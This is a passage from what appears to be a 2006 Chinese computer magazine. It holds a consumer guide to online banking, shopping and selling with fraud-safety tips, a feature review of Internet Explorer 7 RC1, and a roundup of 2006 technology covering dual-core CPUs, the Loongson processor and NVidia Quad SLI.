网上银行的转账汇款业务，都不受银行上班时间的影响，只要你可以上网，那么就可以进行转账汇款业务，提醒大家的是“大众版”用户在转账时，会受到银行规定的金额的限制，而“专业版”用户可以自己设定金额限制。另外，在进行跨行或异地转账时，每笔业务会收取 1% 的手续费，最高 50 元。不过，它的方便快捷确实值得大家尝试一下。

#### 3. 网上缴费

现在很多银行都开通了网上缴费业务，我们的电话费、水电费、燃气费都不用四处跑了，直接在网上就可以轻松搞定。

我们先登录系统，在菜单栏中选择“基本业务 / 一卡通自助缴费”，然后在“自助缴费”窗口中单击“功能申请”选择缴费项目，申请开通你需缴费的项目，进行缴费。如图13所示。

| 操作 | 项目名称 | 商户号 |
|------|----------|--------|
| 申请 | 手机费 | 501 |
| 申请 | 手机费 | 513 |
| 申请 | 手机费 | 514 |
| 申请 | 电信话费、信息费 | 504 |
| 申请 | 电费 | 511 |

#### 4. 网上挂失

出差在外地，不小心把卡弄丢了，身在外地，回开户行挂失是不可能的，怎么办？幸好我们的卡开通了网上银行，急忙找到一台连了网的计算机，进行“网上挂失”。

首先，登录系统，然后在菜单栏的“账户管理”中选择“一卡通挂失”，在“挂失”窗口中输入你需要挂失的一卡通卡号，再单击“确定”就OK了。如图14所示。

冻结查询

一卡通挂失：

当前一卡通卡号：622588

这一业务极大地方便用户，就算遇到丢卡这样棘手的难题也不用担心了。

### 四、网上购物 足不出户

网上银行不仅是我们理财的好帮手，同时，也让我们的消费空间有了新的拓展。足不出户，就可以在网上商城购买到全国各地的好东东，好不轻松自在。不过要想成为真正的网上购物高手，还是需要先修炼一番。接下来，我就为大家介绍一些关于网上购物的小知识。

#### 1. 网上支付平台

在网上选购了一大堆满意的物品，最后怎么才能顺利交易，成为自己的宝贝呢？这时我们就需要借助网上支付平台了。如淘宝网用的是支付宝，易趣用的是安付通、贝宝等支付平台，这些支付平台都是依托于网上商城，并且交易双方都必须是该支付平台的用户才可以。下面，给大家介绍一种提供综合性支付方式的第三方在线支付平台——快钱。快钱不依托于任何网上商城，而且只需一方是它的用户就可完成支付，而对于商家而言，没有账期的快钱，显然更受到他们欢迎。

- (1) 注册

首先，登录快钱主页 (http://www.99bill.com/)，在左边“用户登录”下方，单击“新用户，立即注册”链接，进行注册。然后，按要求填写注册信息。确认无误后，单击“下一步”按钮继续操作。完成快钱注册后，会弹出一个提示框，要求你到邮箱进行验证。只有完成邮箱验证，才能使用快钱各种强大的收、付款功能。

这时，登录你的邮箱，打开快钱的邮件，单击邮件中“确认您的邮箱”按钮。在弹出的窗口中填写注册时的快钱密码和附加码，就可完成验证了。完成验证后，你就是快钱的用户了，接下来就可以利用快钱收、付款了。

- (2) 账户付款

登录快钱后，单击“我要付款”按钮。接着按要求填写付款信息，完成后单击“下一步”按钮。这时候快钱会要求你再一次确认付款信息，你确认无误后，单击“确定付款”。最后，快钱会告诉你付款已成功，交易就完成了。

另外，快钱还有账户提现，交易查询等业务，具体操作，在快钱主页的“功能演示”中都讲得很明白，大家只需按部就班去做就行了。

#### 2. 网上商城

现在，我们去各大网上商城逛一逛，看看能不能淘到自己喜爱的宝贝。目前，做得比较好的网上商城有淘宝、易趣、当当、搜狐商城等。我这就挑一两家逛逛，亲自体验一下足不出户的购物乐趣。

- (1) 淘宝网 (http://www.taobao.com/)

我们先去淘宝的网店转转，先登录主页 (http://www.taobao.com/)，东西还真不少，衣服、鞋子、数码、音像，让人眼花缭乱。如图15所示。


好想快点淘到自己的宝贝，最近正想买个数码相机，可商城里这么多东西，怎样才能找到自己所需要的呢，现在大家就跟我一起学“淘宝”吧！

- 步骤一：注册成为淘宝用户

在淘宝网页左上方单击“免费注册”，在“注册”页面按提示填写信息。然后阅读《服务条款》，同意接受就单击“提交信息”，接着淘宝要求到邮箱中激活账号。这时，就进入你的邮箱，单击“确认”按钮，激活你的账号。这样注册就算成功了。

- 步骤二：搜索宝贝

我需要数码相机，所以在“买宝贝”一栏的搜索文本框中输入“数码相机”，然后单击“搜索”，如图16所示。

这时，会有很多店铺供你选择，你最好选择信誉好的卖家，特别是要看信誉的详细内容，也就是其他买家给卖家的评价。上面这个卖家不仅通过了身份认证，而且是四钻级别，卖家好评率也达到了100%。像这样的卖家就是比较信得过的，可以到他的店铺里好好逛一逛。而有的店主信誉得到中评、差评较多，对差评又没做出合理解释，这样的店铺还是“敬而远之”为妙。


- 步骤三：购买宝贝

找到需要的商品后，先不要着急拍下，可以通过“淘宝旺旺”或店主提供的联系方式多给店主交流，确定交易商品的一些细节问题，如：东西的号码、功能、质地、售后服务、有没有保修甚至全球联保（主要指电器类），以及邮费等需要事先敲定的问题。有时，沟通好，不少掌柜还会给你一个更好的折扣。更重要的是通过相互交流可以了解卖家的责任心、售后服务，甚至可以看出是不是骗子。一旦决定拍下后就不要再讨价还价了，掌柜大多会很反感这种行为。

- 步骤四：付款

卖家一般会提供多种付款方式，如：汇款、银行转账、支付宝等，出于安全性考虑，建议大家使用支付宝付款。这里我们来简单看一下支付宝的交易流程，如图17所示。


- 步骤五：评价

收到心爱的宝贝后，也别忘了要给卖家好评。不要随意给差评，卖家经营也不容易嘛。假如收到的东西有问题，应该先与卖家联系，有些误会一个电话就可以化解掉。如果确实有了问题，好的商家售后服务完善，退换规则明确，会直到买家满意为止的。当然遇到态度恶劣的商家，售后服务特差的就另当别论了，一定要坚决投诉到底。最后提醒大家，完成交易后，最好向商家索要收据或者凭证，并妥善保管汇款单据等，同时保留与商家的手机短信或往来邮件等资料，以备不时之需。

- (2) 当当网（http://home.dangdang.com）

当当网的主页简洁明快，而且专门为我这种新手提供了“购物指南”，大家可单击页面“新手上路”的链接了解购物流程。如图18所示。


当当网商城分自营店与店中店，后者与“淘宝”店铺类似，这次我们就去当当网的自营店瞧瞧。

- 步骤一：选择商品

进入当当网的主页后，可以先浏览“导航菜单”，然后在“搜索”框中输入商品关键字信息，比如，我想买《中国古典小说》，那就输入“中国古典小说”，如果你只想阅读某一类的书，也可在分类查找中进行选择。

- 步骤二：放入购物车

我们可以用排列方式查看本类商品，选到要买的商品后单击“购买”，如图19所示。


这时，会弹出一个页面显示你所购商品的名称、原价、当当价和数量等信息。如果还要继续购物，可单击“继续购物”，重复上面的操作，如果购物完毕，显示的信息确认无误，就单击“去核算中心”按钮。

- 步骤三：结算中心

这时，如果是新用户需要先注册，要求输入用于注册的邮箱地址，选择“我还未登记过”，然后进入注册页面，设定登录密码即可完成开户（密码可以为英文字母、阿拉伯数字，限12个字符以内，密码要在6位以上）。如图20所示。


进入结算中心后，就仔细填写收货信息、送货方式、选择包装、付款方式，最后单击“提交订单”。

这里需要提醒大家的是：为了保证商品顺利送到你手中，务必准确填写收货人的姓名、地址、邮编、电话等信息；另外，当当网提供了多种送货方式，有快递、普通邮寄、特快专递和加急送（仅限北京五环地区）等，其中很多都可以送货上门后再付款，这样大家购物更放心。所以你可以根据你所在地区和时间要求选择送货方式。

- 步骤四：提交订单

填写并确认完以上信息，各位就可以放心提交此订单，等待收货了。提交订单后，自营店会在网页返回一个订单提交成功的页面信息，请记录订单号，以方便日后查询。

### 五、网上开店 人人都可做掌柜

我平时特喜欢音乐，家中有好多 CD、VCD 的碟子，时间长了就不想听了，放在家里既占地方又用不上，我就琢磨着要是能把它们放到网上说不定还能卖个好价钱。要当个好掌柜，也是要花工夫的，下面我就要开始着手选摊位了。

目前，支持个人开网店的网站主要有：淘宝、易趣和一拍网。这里以易趣为例，只要完成下面的步骤，就可以圆你的“老板”梦了。

- 步骤一：注册用户

先打开易趣网页（http://www.ebay.com.cn/），在网页上方直接单击“注册”链接，在注册页面中，正确填写用户名、姓名、密码和邮寄地址，这些信息要尽量真实以确保交易成功。在阅读并接受《易趣用户协议》和《隐私权保护规则》后，单击“我已阅读并接受上述条款，继续”按钮。

随后，你的电子邮箱会要求确认，你只需打开电子邮箱单击“确认”链接，就可完成注册。

- 步骤二：卖家认证

为了保证安全，易趣要求对卖家进行身份验证。登录易趣后，在页面上方选择“卖东西”，之后，单击“登录物品”按钮，并在登录窗口中输入你的用户名和密码，并单击“登录”按钮，在确认信息无误后，单击“继续”。

接着，在页面中选择认证方式。认证分为：手机认证和身份认证。选择身份认证，需要输入姓名、身份证号和所在省市。单击继续后可把身份证复印件邮寄到指定地点，相关单位在收到复印件两日内将通知你认证结果。如果你嫌麻烦也可进行手机认证，但前提是你手机是中国移动或联通的入网号码，神州行和如意通等号码的手机无法通过认证。

- 步骤三：登记物品

开店当然要有东西了，这时你可以进入“卖东西”页面，输入用户名和密码登录。登录后，开始创建物品。

输入物品的名称和相应的描述，这个可以随意发挥，越能吸引别人眼球越好。

选择商品分类和出售信息。先将商品分类，比如我就将我的音乐碟做了如下分类：古典/外文/明星/乐器，然后还可以选择子分类。在“上传图片”区，单击相应按钮上传想要出售的物品图片。在“卖法”中可选择定价或竞价，定价就是以“一口价”的方式卖出，竞价则是让买家对物品出价。在“定价和付款”区域，输入起始价和一口价，如果选择了“定价”就必须依次填写一口价、登录天数、接受付款的方式（默认使用安付通）。在“送货”区选择物品所在地，并单击“提交”。

要想了解自己商品的交易情况，可以单击页面上方的“我的易趣”，然后在打开的页面左侧单击“出售中的商品”，就可查看已经登记出售的商品了。开好网店后，就可“坐等渔利”啦！不久，我就卖出了两盘 CD，真是开心！想做“翘脚老板”的朋友们不妨来试试。

### 六、网上消费 安全第一

尽管网上消费方便快捷，但是随着网上交易的广泛应用，一些不法之徒趁机利用人们的疏忽大意，采取高科技手段盗取“网银”密码，网络安全问题已引起了人们普遍的关注。下面就向大家介绍几招防范网银诈骗的方法，希望大家能够提高警惕，保护好财产。

- 加强上网的安全意识，培养良好的上网习惯

网上银行用户一定要在电脑中安装好杀毒软件和防火墙软件，并定期更新升级。“网银大盗”属于木马病毒，有好多个变种。中了这种病毒以后，它可以直接盗取用户的账号和密码，当发现窗口标题包含“银行客户端”、“网络银行”等字样时，便会检测窗口内输入框中的文字，木马病毒制造者便会获取相应信息，并从中很容易得到账户和密码。然后便可以肆无忌惮地直接在网上银行进行消费。因此，网银用户千万不能偷懒，不能对网络大盗存在侥幸心理，一定要定期对电脑进行杀毒，防患于未然很重要。

- 交易的账户要少存钱

用于网银交易的账户尽量少存钱，而且每次使用网银业务后，大家应随时做好记录，养成定期查看“购物明细”、“交易明细”等选项的习惯，最好在月末或季末打印网上银行业务的对账单，以防误操作或网络故障等其他原因造成账务差错。

- 认清网址，避免进入“假银行”

不法分子往往利用与正规网上银行相同的网页、相近似的网址设计虚假信息，来骗取网银用户的密码和银行卡号。所以在登录网上银行办理业务时，一定要擦亮眼睛，认清银行的合法网址，并正确输入。

综述：网络是一把双刃剑，在给我们带来便捷的同时，也引发了很多网络安全问题。但是，我们不能因噎废食，只要我们提高网络防范意识，培养良好的上网习惯，相信足不出户的网上交易，一定会令你一“网”情深的！

## 掀起 Internet Explorer 7 的盖头来

文 / 柴璟

Internet Explorer 7 是微软近年来对其浏览器进行的首次大规模升级，新版本除增加了选项卡式浏览、RSS 订阅源、反钓鱼筛选器外，还极大加强了上网的安全防护功能。在发布了多个测试版本后，微软于2006年8月24日发布了 Internet Explorer 7 Release Candidate 1 (RC1) 版，也就是所谓的“发布候选版”。这种版本一般已经包括了正式版的所有功能、并且经测试后比较正常，很接近正式版。RC1 版的发布，预示着IE 7正式版已经呼之欲出。正如微软IE产品经理玛格丽特表示“我们已经离发布正式版本越来越接近了。”

### 一、软件的安装与验证

在安装IE 7的测试版本时，用户不得不先手动卸载早期的版本才能继续安装，而第一个测试版本甚至无法安装在非英文的操作系统中，喜欢尝鲜的朋友不得不通过修改注册表的方式才能成功安装。RC1 版的推出让这一切都不是问题，因为在 RC1 的安装程序中已经包括了自动卸载功能，可以自动卸载先前的测试版本，因此安装起来更容易。目前IE 7已推出阿拉伯语、英语、芬兰语、法语、德语、日语、西班牙语等多个版本。虽然还不支持简体中文，但在中文操作系统中安装已经不是问题。

用户可以根据自身操作系统版本的不同在该页面下 http://www.microsoft.com/china/windows/ie/downloads/default.mspx 下载相应的 IE 7 RC1 版，目前 IE 7 RC1 版支持 Windows XP Service Pack 2 (SP2)、Windows XP Professional x64 Edition 和 Windows Server 2003 Service Pack 1 (SP1) 版本的操作系统，完全安装需要12MB。而对于微软下一代操作系统 Windows Vista，IE 7是集成其中的。

IE 7的安装向导延续了近期微软软件安装程序的界面风格，界面简单、清爽、明了。在安装前，出于安全的考虑，安装向导要求用户备份重要的文件并关闭所有程序。同时为了避免出现任何潜在的安装问题，还要求在安装过程中暂时关闭杀毒软件。只有通过了微软正版验证的操作系统才能正常安装IE 7，因为在IE 7的安装过程中需要对操作系统进行正版验证。安装的过程中，点击“Validate”按钮即可进行验证，一旦通过验证即可进入下一步的安装。在接下来的界面中，用户可以选择在安装过程中是否下载所有针对IE的更新，以及下载并运行最新版的微软恶意软件移除工具（Malicious Software Removal Tool），建议勾选该项。随后就是安装过程，该过程时间的长短取决于用户。

### 二、软件的新特性

#### 1.简洁的界面

IE 7的操作界面采用了Vista的视觉风格，在去掉了不必要的项目后，整个页面显得更加简洁和整齐，最大程度地扩大了网页的可视区域，使网页浏览操作变得非常简单轻松（如图1）。如今的地址栏被锁定在窗口的最上方，这样一些黑客使用网络钓鱼或者间谍软件来替换地址栏内容的做法将不再生效。在地址栏的右侧是内置的搜索引擎“Live Search”，允许用户添加新的搜索引擎。位于地址栏下方的就是IE7新功能之一的选项卡栏，允许用户在单个浏览器窗口中打开多个选项卡来浏览不同的网页。选项卡栏左边五角星按钮是收藏中心，用户可以添加收藏，查看收藏夹、选项卡组、RSS 订阅源，以及浏览历史记录等（如图2）。

选项卡栏右边是工具栏，在这里用户可以轻松的完成默认主页的修改，RSS 订阅源的订阅，页面打印等工作。利用“Page”按钮的下拉菜单，用户可以打开新窗口，或对当前页面进行操作，利用“Tools”按钮的下拉菜单，用户可以完成IE的一系列设置，包括弹出窗口阻止程序、反钓鱼过滤器、加载项的管理、开启菜单栏、IE选项、以及第三方软件的快捷方式等。

#### 2.选项卡式浏览

微软的浏览器一直以来都是以单个窗口方式打开网页的，当打开多个页面时不仅难以管理，而且非常消耗系统资源。在其他第三方浏览器例如Firefox早已利用多选项卡式的浏览给用户带来极大方便的情况下，微软终于在IE 7中也加入了该项功能（如图3）。在选项卡列表的下拉菜单中，用户可以很方便的查看共打开了多少个选项卡，并以粗体字显示当前正在显示的页面（如图4）。点击“快速选项卡”按钮，可以在单个窗口中显示所有已打开选项卡的缩略图，方便用户快速选择和导航选项卡。用户还可以通过拖拽的方法，随意调整各选项卡的位置。

打开IE选项对话框并切换到“General”选项卡，点击“Tabs”区域中的“Settings”按钮可以打开“Tabbed Browsing Settings”对话框，在该对话框下用户可以对选项卡式浏览作一些个性化的设置，甚至可以禁止选项卡式浏览的功能，只要不勾选“Enable Tabbed Browsing”选项并重启IE即可。

#### 3.强大的RSS功能

RSS(Really Simple Syndication)是一种描述和同步网站内容的格式，是目前使用最广泛的XML应用。尤其是博客和各大门户站点，都将RSS信息聚合作为一个标准的服务来提供。当用户浏览页面时，如果发现页面中有RSS订阅源，工具栏上的Feed按钮即会由灰色变为彩色，直接点击该按钮来预览和根据需要订阅站点上的RSS订阅源。如果该页面包含多个RSS订阅源，用户可通过Feed按钮的下拉菜单选择自己感兴趣的资讯。在RSS预览页面的右边有个固定不动的对话框，用户可以实现查找，根据时间、标题或作者名字排序等操作。

在IE选项对话框中切换到“Content”选项卡，点击“Feeds”区域中的“Settings”按钮可以打开“Feed Settings”对话框，设置Feeds自动更新的间隔时间（如图5）。该项设置对所有收藏中心中的Feeds都有效。如果用户需要对某个Feed进行单独设置（该Feeds必须已加入收藏中心），只需在该Feed上单击鼠标右键选择“Properties”，或在RSS预览页面的右侧点击“View feed properties”打开“Feed Properties”对话框进行设置即可。

IE 7将以粗体字的形式显示未阅读过的Feeds，以帮助用户方便的识别出哪些是已读或未读的。

#### 4.独特的反钓鱼筛选器

继电脑病毒、恶意代码以后，近几年一种被称为网络钓鱼的欺骗手段开始在网上流行起来。这些钓鱼网站往往模仿受信任的企业或品牌，使用几可乱真的假冒网站或伪造的电子邮件来骗取可标识个人身份的信息，如账号、银行卡密码等，给受害者带来极大的物质损失和精神伤害。鉴于这一点，IE7自带了一项反钓鱼筛选器功能（Phishing Filter），每当用户访问一个网页时，反钓鱼筛选器都会对照最新的、包含已报告的假冒站点的动态列表，对用户正在访问的站点进行检测（如图6）。如果找到任何匹配项，反钓鱼筛选器将显示一则红色警告，通知用户为安全起见，已阻止了该站点。如果认为是可疑网站，则会显示黄色警告，提醒用户谨慎处理。

用户第一次使用IE 7时会弹出一个对话框，询问用户是否开启自动检测功能。或者用户可以通过点击“Tools/Phishing Filter/Turn on(off) Automatic Website Checking”来开启或关闭该功能。如果用户关闭自动检测功能，反钓鱼筛选器会在IE状态栏上显示一个图标，允许用户在需要时单击该图标，在弹出的菜单中选择“Check this Website”来手动检测当前正在访问的网站（如图7）。如果用户发现一个自己认为是假冒的网站，可通过在图7的菜单中选择“Report This Website”向微软报告。在随后弹出的“反馈”页面中，用户可以按照提示一步一步完成网站的举报操作。

#### 5.其他功能

##### （1）集合的搜索引擎

虽然 IE7 只内置了一个 “Live Search” 作为默认的搜索引擎，但用户只需在搜索栏的下拉菜单中点击 “Find More Providers”，并在随后弹出的页面中点击想要添加的搜索引擎的链接，在弹出的对话框中点击 “Add Provider” 按钮即可添加新的搜索引擎（如图 8）。勾选 “Make this my default search provider” 选项，还能将该搜索引擎设为默认引擎。

点击搜索栏的下拉菜单中的 “Change Search Defaults”，在弹出的对话框中用户可以进行移除或更改默认引擎的操作。

##### （2）收藏中心

针对新增的选项卡式浏览和 RSS 订阅源功能，IE 7 的收藏中心相应也增加了对它们的支持。点击 “Add to Favorites/Subscribe to this feed”，在弹出的对话框中点击 “Subscribe” 按钮即可完成 RSS 的订阅操作。如果点击 “Add Tab Group to Favorites”，在随后弹出的对话框中点击 “Add” 按钮即可以选项卡组的形式一次性保存当前所有打开的页面到收藏夹中（如图 9）。

在收藏夹中，用户可以在选项卡组上点击鼠标右键，在弹出的菜单中选 “Open in Tab Group”，或直接点击选项卡组右边的蓝色小箭头，都能一次性打开该选项卡组包括的所有页面。

##### （3）页面缩放

使用过 Opera 8 的朋友大概早已见识过这项功能，现在 IE7 也可以让用户对特定的网页进行图片和文字的放大操作，方便用户关注特定内容或者使视觉障碍者可以将内容看得更加清楚。在 IE 7 状态栏的右侧增加了一个单键缩放按钮，直接点击该按钮页面的显示比例会在 100%、125% 和 150% 之间来回切换。用户也可以在该按钮的下拉菜单中选择其他的显示比例（如图 10），或通过快捷键 “Ctrl+” 和 “Ctrl-” 对页面进行缩放，每次缩放的比例为 10%。

##### （4）智能打印

借助改进的打印适应功能，IE 7 可自动缩小文本，以便所有网页内容均能容纳于最终任何型号的纸张上。在 “Print” 按钮的下拉菜单中选择 “Print Preview”，在打印预览中选择 “Shrink To Fit” 即可启动打印自适应功能，或在下拉菜单中选择其它的打印比例。用户还可以通过可调整的页边距功能自定义打印页面的布局（如图 11）。

#### 6.结束语

随着 Firefox 的崛起，微软旗下的 Internet Explorer 在浏览器工具中龙头老大的地位已经岌岌可危。究其原因不仅是由于 IE 严重的安全问题，其基本功能也确实落后于它的竞争对手。在这种情况下，微软终放下架子对 IE 进行了迄今为止最大规模的一次升级。不仅将 Win XP SP2 中针对 IE 安全性能改进的，如 “弹出窗口阻止程序”、“加载项管理” 等功能直接整合到 IE 7 中，还增加了 “反钓鱼筛选器”，以及其它在安全性能方面的细微调整，都可以看出微软在这次升级中对安全防范的重视。选项卡式的浏览、RSS 订阅源的引入更是顺应民意，满足了广大用户的使用需求。但我们也必须看到，虽然 IE 7 在安全性能和使用功能上得到了很大的提高，但仍有部分功能设计的不够人性化，例如不能通过在选项卡上执行双击来关闭选项卡，在地址栏中输入的新网址无法自动以新的选项卡方式打开等。看来 IE 7 要想在短时间内让众多用户重回它的怀抱，恐怕还有一段路要走。让我们共同期待 IE7 正式版本的发布，以后随后源源不断的 SP1、SP2……

## 2006年度信息技术发展扫描

文/信子

2006年中国信息产业的发展，体现出一个鲜明的特点：承上启下、衔接前后。代表未来3G通信标准的TD-SCDMA技术，在经过多年论证后终将于年底走向商用；CPU的双核概念，在经过去年的技术储备以及今年的市场洗礼后，已成为市场主流；代表新一代光存储标准的蓝光和HD-DVD标准于2006年向市场推出终端产品；其他像Nvidia Quad SLI技术、硬件解码高清视频技术、微软的新一代面向64位操作系统，这些去年多数还停留于概念层面的新技术，均于今年向市场推出了成熟产品，并必将伴随着市场推广活动的深入，占据明年以及未来的主流市场份额。今年的信息技术领域呈现出百花齐放、百家争鸣的新奇景象，一系列涉及软件、硬件、通信、游戏应用等方面的革命性技术与产品先后投入市场。可以说，2006年既是技术的成熟元年，同时也是市场推广的元年，是“承前启后”的一年！

对于信息技术而言，永远都是挑战与机遇并存的。面对竞争对手，最好的反击武器便是永不停止创新，这也是这一产业的源动力，也只有不断在技术上取得进步，才可能在优胜劣汰的大环境中求得生存。因此，我们在信息技术领域内总能感受到生生不息的创新活力，技术人员总能带给我们一些印象深刻、设计优秀的技术与产品，正是这些产品与技术，构成了我们未来信息时代的一个个基点，将一个个美好的愿景逐步变为现实。在此，愿与大家共同分享2006年的一些设计优秀的产品以及让人印象深刻的技术。

### 一、CPU篇

#### 1. 双核之争

CPU在经历了唯频率论阶段后，2006年的CPU市场开始步入理性的“效能”论阶段，两大通用CPU制造商Intel公司和AMD公司不约而同地将产品宣传重点放在了Performance/Watt（每瓦特性能）上。一方面的原因是，在当前技术条件下CPU运行频率的可提升空间已经相当有限，同时CPU频率的不断提升也带来高功耗和高发热量的问题；另一方面的原因是，CPU频率的提升与性能的增长并没能成比例发展，高频CPU并未能给用户带来全新的性能体验。双核心处理器技术的引入是提高处理器性能的有效方法，于是双核技术便由实验室走向了市场。

双核处理器是指基于单个半导体的一个处理器上拥有两个一样功能的处理器核心。换句话说，将两个物理处理器核心整合入一个核中。“双核”的概念最早是由IBM、HP、Sun等支持RISC架构的高端服务器厂商提出，但由于RISC架构的服务器价格高、应用面窄，并未进入主流市场。而我们现在所说的“双核”概念，主要是指基于X86开放架构的双核技术。目前多数操作系统均支持并行处理，并且常用软件的最新版本中也加入了并行技术的支持，因此配合双核CPU就使系统性能获得明显提升。

虽然Intel和AMD都向市场推出了自己的双核CPU产品，但是两者的双核设计思路却存在明显不同，并由此产生了真假“双核”之争。AMD从CPU内核设置初始就考虑到了对多核心的支持，将两个处理器核心（Core）做到一个Die（内核）上，核心之间通过直连架构连接，集成度更高，有利于消除传统瓶颈和大大缩短内存的延时。而Intel则采用将两个独立的处理器核心封装在一起，核心共享前端总线的方式，采用这种架构有可能会遇到多个核心争用总线资源的瓶颈问题。确切地说，可以认为AMD与Intel的设计思路是双核与双芯(Dual Core Vs. Dual CPU)的关系。

但是有一点是作为我们终端用户所无法忽视的，那就是AMD的双核设计方案能够使双核CPU保持与单核CPU的管脚兼容，同时功耗指标变化也不大，因此用户再升级过程中只需要更新一下主板的BIOS，就可以实现对双核CPU的支持，而无需对电脑系统的主板、电源进行更换，可以说很大程度上保护了用户的前期投资。而这与Intel平台升级双核处理器就要更换主板芯片组、升级电源及散热系统形成了鲜明对比。

但是正如Intel亚太区总裁杨旭所说，双核处理器有多种设计方法，不管采用哪种设计方法，只要达到提高性能的目的就是好的双核处理器，所以并不存在真假之分。双核处理器采用哪种设计理念和方式并不重要，重要的是不是能提供很好的性能给用户。

图1、图2分别为AMD与Intel公司两款代表性双核心CPU。表1为这两款CPU性能比较。

表1：AMD Athlon64 X2 3800+ 与 Intel Core 2 Duo E6300 性能比较

| 参数 | AMD Athlon64 X2 3800+ | Athlon64 AM2 X2 3800+ | Intel Core 2 Duo E6300 |
| :--- | :--- | :--- | :--- |
| CPU内核 | Windsor | Windsor | Conroe |
| 主频 (MHz) | 2000 | 1860 | 1860 |
| 总线频率 (MHz) | 1000 | 1000 | 1066 |
| 倍频 (倍) | 10 | 9 | 7 |
| 插槽类型 | Socket 940 | Socket AM2 | Socket 775 |
| 针脚数 | 940pin | 940pin | 775pin |
| L1缓存 (KB) | 64 | 64 | 32 |
| L2缓存 (KB) | 512KB*2 | 512KB*2 | 2MB |
| 内核电压 (V) | 1.35V | 1.35V | 1.248V |
| 功耗 (W) | 65 | 65 | 65 |
| 制作工艺 (微米) | 0.09微米 | 0.09微米 | 0.065微米 |

对于双核心处理器来说，2006年绝对是高速发展的一年，它们能否取代单核心产品就要看产品在2006年的用户接受度如何。但是AMD和Intel公司则对双核处理器抱有十足的信心。据英特尔中国北方区总经理曾明透露，今年英特尔全线产品将以双核为主，非双核产品将逐渐淡出市场。2006年英特尔产品出货量中，台式机和笔记本70%将采用双核，服务器将超过85%。

不单是双核处理器，随着市场需求的不断提升，今后还将出现四核及多核处理器。AMD公司表示将于2007正式向市场推出四核心处理器产品，并最早将于今年年底展示四内核的Athlon 64处理器，而且仍将保证该处理器与单核与双核产品相兼容，为用户升级提供一个新的选择。英特尔也表示将于2007年初发布其首款四核处理器产品。

#### 2. “龙芯”二次飞腾

2002年9月28日，被誉为第一颗中国芯的“龙芯1号”正式发布。“龙芯1号”CPU是中国科学院计算技术研究所研制成功的我国首枚具有自主知识产权的高性能通用CPU芯片。“龙芯”的研制成功，填补了我国在计算机通用处理器领域的空白，结束了以往全部依赖外国处理器产品的局面。

2006年9月13日，由中科院计算所承担的“龙芯2号增强型处理器（即龙芯2 E）芯片设计”项目通过了科技部“十一五”863计划信息技术领域专家组验收。世人的目光再次聚焦在这枚承载着国人无限期望的自主芯上面。据介绍，这枚包含4700万个晶体管、最高主频为1GHz、面积约两个拇指盖大小、功耗在3至8瓦范围内的龙芯2E处理器已达到奔腾IV处理器1.5~2.0GHZ水平。可以说，“龙芯1号”的研制成功解决的是从无到有、从0到1的问题，而“龙芯2号”则解决的是从1到10的阶段性的飞跃问题。

“龙芯2号”是国内首款64位高性能通用CPU芯片，支持64位Linux操作系统和X-window视窗系统，比32位的“龙芯1号”更流畅地支持视窗系统、桌面办公、网络浏览、DVD播放等应用，尤其在低成本信息产品方面具有很强的优势。 同时由于龙芯采用特殊的硬件设计，可以抵御一大类黑客和病毒攻击。由于在安全性上优势突出，对安全性要求较高的安全服务器，例如政府或者军事安全平台等都将有广阔的市场。图3为基于龙芯技术的电脑主机。图4为主机内部结构。

表2为龙芯产业联盟发布的龙梦电脑详细参数。

表2：龙梦电脑详细参数

| 配件 | 参数 |
| :--- | :--- |
| 处理器 | 龙芯2E CPU，主频600MHz~900MHz，支持DDR333内存总线 |
| 北桥 | 简单北桥用ICT NB2E (ALTERA EP2C20F484)芯片，功耗0.1~0.3瓦 |
| 南桥 | 威盛VT82C686B，33MHz 32-bit PCI接口 |
| IDE接口 | 一个IDE接口，一个Mini-IDE接口，Mini-IDE接2.5英寸笔记本硬盘并能叠放且固定在主板上，IDE接口通过面板引出 |
| 内存 | 插槽200线 PC2700-SODIMM槽一个，标配256MB内存，可扩展到512MB |
| 显示 | ATI RADEON 7000-M，33MHz 32-bit PCI接口，内部集成16MB DDR内存，外接VGA显示输出和S-Video输出 |
| 声音 | 由南桥引出AC'97输出接口 |
| PS2口 | 由南桥引出一个PS2接口 |
| COM口 | 由南桥引出一个DB9型的COM口 |
| 红外接口 | 由南桥引出一个红外遥控接收器接口 |
| USB接口 | NEC uPD720101GJ 33MHz 32-bit PCI接口，外接4个USB 2.0口，两个一组上下叠放 |
| 网络接口 | Realtek 8139D，33MHz 32-bit PCI接口，外接RJ45接口 |
| 按钮 | 面板上设置一个开关按钮，一个复位按钮 |
| 指示灯 | 面板上设置电源指示、IDE指示 |
| 主板尺寸 | 14cm(宽)×18cm(长)电源、一个12V笔记本电源输入接口、一个4-pin电源输出接口(提供+12V，+5V电源输出) |
| 整机功耗 | 15-20瓦 |

正如原国家863计划信息领域首席科学家汪成为院士所说：“我们为什么要大力支持‘龙芯2号’？因为它是信息技术中的核心技术，是核心技术的支撑部分，是核心支撑技术的主流部分，是核心、支撑、主流技术中具有创新的部分，同时从提高综合国力角度讲，又得到了企业的大力支持，具有光明的产业化前景！”

随着“龙芯1号”、“龙芯2号”的研发成功，“龙芯3号”、“龙芯4号”等多核产品也已经纳入开发日程，相信龙芯团队能够开发出具有国际领先水平的芯片，真正将自主知识产权技术做大、做强，我们也衷心期待未来在我们身边随处可见采用龙芯技术的计算机产品。

### 二、显示篇

#### 1. NVidia Quad SLI技术

2004年，NVidia发布了SLI双卡互联技术，而到了2006年年初，NVidia则是通过Quad SLI技术再次向业界展示了自己在图形处理技术领域的王者地位。

如图5所示，整套Quad SLI系统由两块特殊设计的双PCB显卡通过SLI技术连接而成，即一张显示卡由上下两块PCB组成，双PCB之间的数据交换通过专用的接口进行（如图5中圆圈标示处，全PCB共通过三个专用接口进行数据传输），这样单卡双PCB板双GPU共享一个PCI-Express。x16 数据接口和一组DVI显示输出接口，同时显卡上还有一个NVidia为Quad SLI系统专门设计的“X48 PCI-E”芯片，该芯片负责将PCI-E x16接口带宽动态分配给两颗GPU，避免了两颗GPU争抢带宽而产生数据传输瓶颈问题。然后两块双PCB显卡之间则通过MIO接口并按照1~3和2~4的顺序连接起来，使工作于主板芯片南桥PCI-Express通道的3、4号显卡，可以直接通过MIO数据通道将运算结果传至工作于主板芯片北桥PCI-Express通道的1、2号显卡，减轻了主板南北桥数据传输的压力。最后再配合NVidia经过优化的渲染算法驱动程序，巧妙地实现了四颗GPU的协力运算。由于每颗GPU核心均拥有自己的512MB材质缓冲（显存），因此Quad SLi能在令人难以置信的2560 x 1600像素分辨率下提供绚丽的3D效果，而且更能提高3D画面的质素，支持高达32X SLi 